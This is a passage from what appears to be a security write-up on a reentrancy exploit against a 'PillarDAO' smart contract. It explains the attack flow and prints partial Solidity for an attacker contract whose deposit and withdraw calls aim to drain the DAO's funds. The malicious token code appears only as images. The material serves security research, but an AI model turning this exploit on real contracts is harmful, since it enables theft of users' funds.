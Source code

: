 Since I didn't know which token standard was used (I didn't search for it too), I decided to create a malicious token that will be used by DAO that allows reentrancy !

#### 2.2 - The attack flow
The attack consists of:
- Creating a malicious token that triggers a callback during transfers
- Setting up an attacker contract that can reenter the withdraw function
- Using the test file to set up and execute the attack
- Showing how the funds are drained due to the reentrancy vulnerability

### 3 - Exploitation

#### 3.1 -  Creating a malicious token that triggers a callback.
![withdraw-eviltoken](https://github.com/user-attachments/assets/05f4a79a-c0c5-4b92-a2a1-c58f19b46e5c)

Very simple implementation, you can see that it triggers tokensReceived that I need to implement. This function will be the reentrancy attack where I will try to call multiple times withdraw() to drain all the funds from the PillarDAO contract.

![withdraw-reenter](https://github.com/user-attachments/assets/01eafbdc-c312-4c15-9223-ae3c9bacff02)

#### 3.2 - The attacker contract that can reenter the withdraw function


```solidity

contract ReentrancyAttacker {
    PillarDAO public dao;
    MembershipNFT public nft;
    ERC20PresetMinterPauser public token;
    uint256 public attackCount;
    uint256 public maxAttacks;
    address public owner;

    constructor(
        address _dao,
        address _nft,
        address _token,
        uint256 _maxAttacks
    ) {
        dao = PillarDAO(_dao);
        nft = MembershipNFT(_nft);
        token = ERC20PresetMinterPauser(_token);
        maxAttacks = _maxAttacks;
        owner = msg.sender;
    }

    /// @notice Deposit into the DAO
    /// @param amount Number of tokens to deposit
    function attackDeposit(uint256 amount) external {
        // require(msg.sender == owner, "only owner");
        token.approve(address(dao), amount);
        dao.deposit(amount);
    }

    /// @notice Start the withdraw attack
    function attackWithdraw() external {
        // require(msg.sender == owner, "only owner");
        attackCount = 0;
        dao.withdraw();
    }

```